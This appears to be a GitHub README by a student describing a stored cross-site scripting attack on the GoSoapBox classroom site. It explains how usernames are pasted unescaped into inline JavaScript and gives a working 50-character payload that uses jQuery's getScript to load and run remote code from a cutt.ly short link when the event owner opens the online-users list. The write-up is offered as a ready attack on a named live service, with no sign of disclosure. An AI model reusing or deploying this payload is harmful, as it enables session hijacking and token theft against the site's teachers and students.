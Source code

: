 # GoSoapBox XSS

Input in this site is rarely filtered, and on the rare occasions that it is, 
it's done poorly, and in a way that can be bypassed with minimal effort.

Just to get it out of the way, here is the actual XSS vector:
`";//<svg onload="$.getScript('//example.com/abcd')"/>`

where example.com/abcd stands for any url to a script file

To understand why this vector is used, first, some background understanding of GoSoapBox is needed.

1. GoSoapBox uses a Firebase DB to hold its information

Because of this, at the bottom of the page, there's a snippet of JS that looks like this:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "my name";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

This js MUST be fully executed in order for the name to appear in the list of online users.

The problem is, any typical XSS vector would not show up in the list of online users,
since the given username is lazily concatenated into the javascript like so:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<svg onload="alert(1)"></svg>"; // Syntax error
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

thus causing a syntax error.

Another problem, at least in Chrome, is that the browser automatically closes a script tag a closing script tag is found in its JS code. Because of this, the XSS vector:

`<script>alert(1)</script>`

is seen in the DOM like this:

```
<script>
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<script>alert(1)
</script> <!-- Undoubtedly syntax error -->

";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
</script>
```

thus causing a more horrifying syntax error.

The next restriction is that

2. GoSoapBox restricts names to 50 characters

This makes writing code directly into the XSS vector infeasible, and also makes most JS hosting sites useless as well, since their URLs are far too long.

So what is the solution? URL shorteners, of course!

Not just any URL shortener can be used, however. The shortener used must both use HTTPS and have a short enough url to fit in the small input box we are given.

I, in particular, opted to use snip.li as my url shortener, though any URL shortener can be used as long as it meets the criteria.

So, to create this XSS vector, we have the following restrictions:

- No `<script>` tags
- Must be JS friendly
- 50 char limit

In order to get around these challenges, I used the following facts:

- GoSoapBox has no SOP
- It also uses jQuery
- svg onload exists

So my solution ended up being quite simple:

`";//<svg onload="$.getScript('//cutt.ly/wrqQHy3')"/>`

- The `";//` comments out the XSS vector to prevent a syntax error
- The svg onload uses `$.getScript` to retrieve an external script
- The external script is retrieved via the shortened URL `cutt.ly/wrqQHy3`, which points to an example script that I made.

Now, when the event owner looks at the list of online users using the "See Who's Online" button, the javascript will execute.

At this point, any normal XSS attack can be performed using the online script.

\*The XSS vector disappears after the attacking event guest logs out, making this XSS semi-persistent.

Credits:

- My teacher, for using this site 800 million times
